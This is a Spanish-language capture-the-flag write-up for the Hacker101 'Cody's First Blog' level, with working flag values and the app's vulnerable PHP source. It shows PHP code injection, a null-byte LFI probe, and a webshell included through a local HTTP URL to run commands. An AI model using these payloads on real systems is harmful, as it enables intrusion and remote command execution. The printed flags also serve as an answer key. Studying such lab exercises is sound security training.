 # HackerOne Hacker101 CTF

## Cody's First Blog
### Web - Moderate (5/flag)

![](img/level06.png)

### Hints

* Flag0
	* What was the first input you saw?
	* Figuring out what platform this is running on may give you some ideas
	* Code injection usually doesn't work
* Flag1
	* Make sure you check everything you're provided
	* Unused code can often lead to information you wouldn't otherwise get
	* Simple guessing might help you out
* Flag2
	* Read the first blog post carefully
	* We talk about this in the Hacker101 File Inclusion Bugs video
	* Where can you access your own stored data?
	* Include doesn't just work for filenames
	
	
### Flag0 - PHP

La primera de las flags se obtiene intentando inyectar código PHP en un post.
```
<?php phpinfo() ?>
```

### Flag1 - Guessing

En el código fuente del index hay un comentario HTML con la siguiente URL

```
<!--<a href="?page=admin.auth.inc">Admin login</a>-->
```

Cuando accedemos a ella tenemos un formulario de login. Además el formato de la URL puede ser vulnerable a LFI.

Probamos la siguiente página inexistente `/?page=TEST` y obtenemos un error en el que vemos que se le ha añadido la extensión *PHP*.

`Warning: include(TEST.php): failed to open stream: No such file or directory in /app/index.php on line 21`

En versiones antiguas de PHP es posible utilizar un byte nulo `%00` como terminador en la función `include`. Para verificar si funciona lo usamos con un archivo que sabemos que existe.

`?page=admin.auth.inc.php%00`

`Warning: include(): Failed opening 'admin.auth.inc.php' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /app/index.php on line 21`

Nos devuelve un error, por tanto no es vulnerable.

Tras un poco de guessing, tal como nos indica la pista. Accedemos a `admin.inc.php`.

![](img/level06-admin.png)

### Flag2 - SSRF + RCE

El ultimo comando es conseguir ejecución de comandos en el servidor.

El primer paso es publicar y aprobar un comentario con una webshell `<?php system($_GET['cmd']); ?>`.

![](img/level06-php.png)

El siguiente paso es cargar este código haciendo una petición HTTP al index, ademas e

`?page=http://127.0.0.1?&cmd=whoami`

Con `cat index.php` obtenemos el código fuente de la aplicación, y la última flag.

```php
<?php
	// ^FLAG^df4533d3f24f22021aa842e87091d8567b239f59a174546b66c95fa2f82258ca$FLAG$
	mysql_connect("localhost", "root", "");
	mysql_select_db("level4");
	$page = isset($_GET['page']) ? $_GET['page'] : 'home.inc';
	if(strpos($page, ':') !== false && substr($page, 0, 5) !== "http:")
		$page = "home.inc";

	if(isset($_POST['body'])) {
		mysql_query("INSERT INTO comments (page, body, approved) VALUES ('" . mysql_real_escape_string($page) . "', '" . mysql_real_escape_string($_POST['body']) . "', 0)");
		if(strpos($_POST['body'], '<?php') !== false)
			echo '<p>^FLAG^5c9376d3de6ef5ba7b2af89f133b51a62f0911e6bd7f6bfd8a96cfd997ea2d55$FLAG$</p>';
?>
	<p>Comment submitted and awaiting approval!</p>
	<a href="javascript:window.history.back()">Go back</a>
<?php
		exit();
	}

	ob_start();
	include($page . ".php");
	$body = ob_get_clean();
?>
<!doctype html>
<html>
	<head>
		<title><?php echo $title; ?> -- Cody's First Blog</title>
	</head>
	<body>
		<h1><?php echo $title; ?></h1>
		<?php echo $body; ?>
		<br>
		<br>
		<hr>
		<h3>Comments</h3>
		<!--<a href="?page=admin.auth.inc">Admin login</a>-->
		<h4>Add comment:</h4>
		<form method="POST">
			<textarea rows="4" cols="60" name="body"></textarea><br>
			<input type="submit" value="Submit">
		</form>
<?php
	$q = mysql_query("SELECT body FROM comments WHERE page='" . mysql_real_escape_string($page) . "' AND approved=1");
	while($row = mysql_fetch_assoc($q)) {
		?>
		<hr>
		<p><?php echo $row["body"]; ?></p>
		<?php
	}
?>
	</body>
</html>
```
